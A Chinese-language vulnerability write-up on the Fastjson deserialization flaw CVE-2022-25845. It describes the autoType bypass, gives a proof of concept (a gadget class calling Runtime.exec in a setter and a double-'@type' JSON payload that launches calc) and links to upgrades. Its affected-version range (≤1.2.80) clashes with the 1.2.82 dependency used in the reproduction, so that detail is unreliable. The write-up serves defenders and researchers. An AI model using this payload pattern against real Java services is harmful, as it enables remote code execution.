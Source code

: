 # Fastjson 远程代码执行漏洞 CVE-2022-25845

## 漏洞描述

Fastjson 是阿里巴巴的开源 JSON 解析库，它可以解析 JSON 格式的字符串，支持将 Java Bean 序列化为 JSON 字符串，也可以从 JSON 字符串反序列 化到 JavaBean。在 Fastjson 1.2.80 及以下版本中存在反序列化漏洞，攻击者可 以在特定依赖下利用此漏洞绕过默认 autoType 关闭限制，从而反序列化有安全风险的类。

## 漏洞影响

```
Fastjson ≤ 1.2.80
```

## 漏洞复现

利用 idea 创建 maven 项目 搭建漏洞环境，在 pom 文件中添加

```
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.82</version>
</dependency> 
```

创建文件夹 com.example.fastjson，在下面添加两个 java 文件

```
package com.example.fastjson;
 
import java.io.IOException;
 
public class Poc extends Exception {
    public void setName(String str) {
        try {
            Runtime.getRuntime().exec(str);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
package com.example.fastjson;
import com.alibaba.fastjson.JSON;
 
public class PocDemo {
    public static void main(String[] args) {
        String json = "{\"@type\":\"java.lang.Exception\",\"@type\":\"com.example.fastjson.Poc\",\"name\":\"calc\"}";
        JSON.parse(json);
    }
}
```

运行 PocDemo

## 漏洞修复

1. 升级至版本 FastJson 1.2.83：https://github.com/alibaba/fastjson/releases/tag/1.2.83
2. 升级到 FastJosn v2：https://github.com/alibaba/fastjson2/releases